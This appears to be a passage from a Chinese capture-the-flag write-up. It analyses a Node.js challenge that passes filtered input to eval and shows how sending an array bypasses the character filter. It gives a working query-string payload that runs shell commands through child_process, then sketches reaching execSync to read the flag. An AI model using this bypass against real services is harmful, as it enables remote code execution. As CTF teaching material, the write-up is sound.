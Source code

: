 执行点就是`eval`函数

代码分析：首先它通过`split`会对输入的参数的每一位都会进行检查，如果出现了`/(flc'\".`中的任意字符，就会将后面所有的字符都变成`*`，然后会将处理后的这个字符串进行截取操作，取前64位，在去除了空格，过滤了危险字符之后，传入`eval`中，看似非常完美的过滤，肯定是无法传入字符串。

我们可以利用数组：

传入数组`["aaaaa","bbbbb",ccccc]`，这样`calc[i]`就不再是单个的字符，而变成了一个字符串了；那么`calc.length`也就是数组中元素的个数，也就是3了；如果传入`["aaaaa","bbbbb","(",]`的话，那么按照这道题的逻辑，它在第3位发现了危险字符，那么就会将第三位以后的字符都替换成`*`，也就是处理成：`aaa***********`

![image-20220707135128012](img/1d59c58201b4e8a27d73fd71ddb0261e.png)

这样看到来`)`是逃逸出来的

给出payload

calc数组长度一定要大于等于前面执行命令的字符串长度

```
calc[]=require('child_process').spawnSync('ls',['/']).stdout.toString();&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=.
```

发现flag的名字很长，直接读取的话长度不够，而且这里过滤了x，也无法直接利用`exec`，但是实际上这里是可以绕过的，因为我们通过`require`导入的模块是一个`Object`，那么就可以通过`Object.values`获取到`child_process`里面的各种方法，那么再通过数组下标`[5]`就可以得到`execSync`了，那么有了`execSync`后就可以通过写入文件的方式读取flag了，`payload`如下:
